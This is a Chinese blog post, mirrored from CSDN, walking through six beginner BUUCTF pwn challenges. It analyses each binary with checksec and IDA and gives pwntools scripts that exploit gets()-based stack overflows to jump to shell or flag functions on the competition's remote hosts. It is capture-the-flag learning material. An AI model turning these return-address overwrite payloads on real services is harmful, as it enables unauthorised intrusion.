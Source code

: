 <!--yml
category: 未分类
date: 2022-04-26 14:53:50
-->

# buuctf pwn刷题（1）_qingmu-z的博客-CSDN博客_buuctf pwn1

> 来源：[https://blog.csdn.net/weixin_42689613/article/details/113432007](https://blog.csdn.net/weixin_42689613/article/details/113432007)

# 1.test_your_nc

先用exeinfo查壳，是64位的程序
![在这里插入图片描述](img/4907286b1798c169e99bec0f9279bc07.png)

用64位ida静态分析一下，找到main函数
![在这里插入图片描述](img/7669aca6c9aa65870079c26680837bce.png)
F5反汇编，看到system("/bin/sh")
`system()的作用———执行shell命令也就是向dos发送一条指令。`
即执行/bin/sh命令，获得shell权限
![在这里插入图片描述](img/ee150a2bbf1c3887999af7f4683d0a9f.png)
![在这里插入图片描述](img/5dad186efaa07c121fc41212d67e682d.png)
用虚拟机连node3.buuoj.cn:27191
`nc node3.buuoj.cn 27191`
查看文件目录
`ls`
查看flag中的内容
`cat flag`
![在这里插入图片描述](img/880c73bb3064dbb7d6355ea0d41832ce.png)

# 2.pwn1

查壳，64位程序
![在这里插入图片描述](img/0aac7b1b4f41866c0a598e5a3b1e941d.png)
用虚拟机看一下有什么保护
![在这里插入图片描述](img/24e7ed2b078c9cd82283cf7e6ed58a31.png)

64位ida静态分析，看一看main函数以及有特殊含义的函数
发现main函数中有gets()函数，所以有栈溢出漏洞
`gets()函数可以输入无限长度的字符，所以容易超出系统分配的栈的最大长度。而在调用函数时栈中存有调用函数之后的命令的地址，所以只要将原本应该返回的地址覆盖掉，就能让程序进入fun函数，从而得到权限。`
![在这里插入图片描述](img/c9b19a53fd54baa9a5c776dd42f8eaab.png)
发现fun函数可以获得shell权限，那么只要让程序执行fun函数即可
![在这里插入图片描述](img/628cdb3818d39edf8b92c8430b9d091d.png)
进入到gets函数的s中
![在这里插入图片描述](img/dce8560b55fff28295aa73ad2442dd88.png)
我们要将阴影部分填充入垃圾数据，在发送fun所在地址到r即可
![在这里插入图片描述](img/1db781aeaaa74b78a60018b552dbeba1.png)
脚本

```
 from pwn import*

context(os="linux",arch="amd64",log_level="debug")

zdb=remote("node3.buuoj.cn",29798)

payload=b'a'*(0x0f-0x00+8)+p64(0x040118a)

zdb.sendline(payload)
zdb.interactive() 
```

# 3.warmup_csaw_2016

file
checksec
![在这里插入图片描述](img/f89ba3be88238813221859e7cbdcea1a.png)
ida64
有gets函数栈溢出漏洞
![在这里插入图片描述](img/f5e6ef8cbfbd29c9d4256fcefbfe886c.png)
进入sub_40060D中发现
![在这里插入图片描述](img/464883d63ccd2c7ddc40cf1718182f43.png)
运行一下程序
程序直接把system地址打印出来了,直接用就可以
![在这里插入图片描述](img/af088b241cea7c1f1851d3b96696ca5e.png)
脚本

```
 from pwn import*
context(os="linux",arch="amd64",log_level="debug")

zdb=remote("node3.buuoj.cn",29734)

payload=b'a'*(0x40+8)+p64(0x40060d)

zdb.recvuntil(">")
zdb.sendline(payload)
zdb.interactive() 
```

# 4.pwn1_sctf_2016

file checksec，32位，没有栈溢出保护
![在这里插入图片描述](img/c6f5f61b56d017e7ad796eb4d7d85543.png)
ida32
找到得到flag的地方
![在这里插入图片描述](img/c91a1b5ba9b5c16ed8e58d2f2bf26d5c.png)
![在这里插入图片描述](img/9950717c153f3cfa4e2443de9e7b0f0f.png)
fgets 输入32位以内的字符串，点进去s，发现32位无法溢出。往下看，有you，I，replace函数猜测是将I替换为you，导致溢出
![在这里插入图片描述](img/ea11596b19f1ee82c746e156378972c5.png)
脚本

```
 from pwn import*
context(os="linux",arch="i386",log_level="debug")

zdb=remote("node3.buuoj.cn",29353)

payload=b'I'*20+b'a'*4+p32(0x8048F0D)

zdb.sendline(payload)
zdb.interactive() 
```

# 5.ciscn_2019_n_1

file checksec
![在这里插入图片描述](img/7447a265885746be382e075e71a3bb7c.png)
ida64 进入main函数中的func函数，有gets()即栈溢出漏洞，还给了system（cat flag）
![在这里插入图片描述](img/97f43c22ce52e2228e74eb75cbb5f905.png)
所以只需要溢出，然后返回到system（cat flag）处地址即可
![在这里插入图片描述](img/876df18f5ca4365b81bd926163b41b42.png)

脚本

```
 from pwn import*
context(os="linux",arch="amd64",log_level="debug")
zdb=remote("node3.buuoj.cn",26842)
payload=b'a'*(0x30+8)+p64(0x004006BE)
zdb.recvuntil("Let's guess the number.\n")
zdb.sendline(payload)
zdb.interactive() 
```

# 6.level0

file checksec
![在这里插入图片描述](img/0817ef0ec1ffcfea5f032c27f945db7a.png)
ida64
注意vuln()或者vulnerable()函数一般是ida认为有漏洞的函数
vulnerable：易受攻击的
![在这里插入图片描述](img/eb913bd121decd9525663d2c62ecc352.png)

![在这里插入图片描述](img/e5f734d09e024379069d0abe977665ea.png)
可以栈溢出
callsystem函数可以得到shell
![在这里插入图片描述](img/351f1031709a12f7175ae0706a61e2ba.png)
脚本

```
 from pwn import*
context(os="linux",arch="amd64",log_level="debug")
zdb=remote("node3.buuoj.cn",27190)
payload=b'a'*(0x80-0x00+8)+p64(0x40059A)
zdb.sendlineafter("Hello, World\n",payload)
zdb.interactive() 
```